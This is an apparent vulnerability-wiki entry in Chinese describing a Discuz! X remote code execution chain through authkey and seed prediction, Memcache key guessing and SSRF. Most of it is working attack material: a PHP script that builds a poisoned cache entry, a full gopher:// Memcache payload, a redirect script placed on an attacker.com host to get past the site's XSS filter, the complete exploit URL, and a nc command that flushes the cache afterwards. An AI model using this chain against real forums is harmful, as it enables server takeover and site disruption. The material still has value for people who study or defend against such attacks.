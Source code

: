 Discuz! X authkey+Memcache+ssrf getshell
========================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId24.jpg)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF
要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

            $uid = DZUCFULL ? 1 : $adminuser['uid'];
            $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
            $_config['db'][1]['dbhost'] = $dbhost;
            $_config['db'][1]['dbname'] = $dbname;
            $_config['db'][1]['dbpw'] = $dbpw;
            $_config['db'][1]['dbuser'] = $dbuser;
            $_config['db'][1]['tablepre'] = $tablepre;
            $_config['admincp']['founder'] = (string)$uid;
            $_config['security']['authkey'] = $authkey;
            $_config['cookie']['cookiepre'] = random(4).'_';
            $_config['memory']['prefix'] = random(6).'_';

            save_config_file(ROOT_PATH.CONFIG, $_config, $default_config);

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie
前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand`
随机数的种子是不变的。也就是说，生成 authkey、Cookie
前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie
前缀是已知的，通过观察 HTTP
请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用
[php\_mt\_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README)
进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62\^6 缩小到不到 1000
个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造
SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache
缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来
getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace`
函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的
payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

    <?php

    $_G['setting']['output']['preg']['search']['plugins'] = '/.*/';
    $_G['setting']['output']['preg']['replace']['plugins'] = 'phpinfo()';
    $_G['setting']['rewritestatus'] = 1;

    $memcache = new Memcache;
    $memcache->connect('localhost', 11211) or die ("Could not connect");
    $memcache->set('IwRW7l_setting', $_G['setting']);

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

    gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D

但是直接用它去 SSRF
是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

image

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

    <?php

    $url = base64_decode($_REQUEST['url']);
    header( "Location: " . $url );

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId26.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次
getshell 后执行以下命令，网站就可以恢复正常：

    echo -e 'flush_all' | nc localhost 11211

参考链接
--------

> https://zhuanlan.zhihu.com/p/51907363
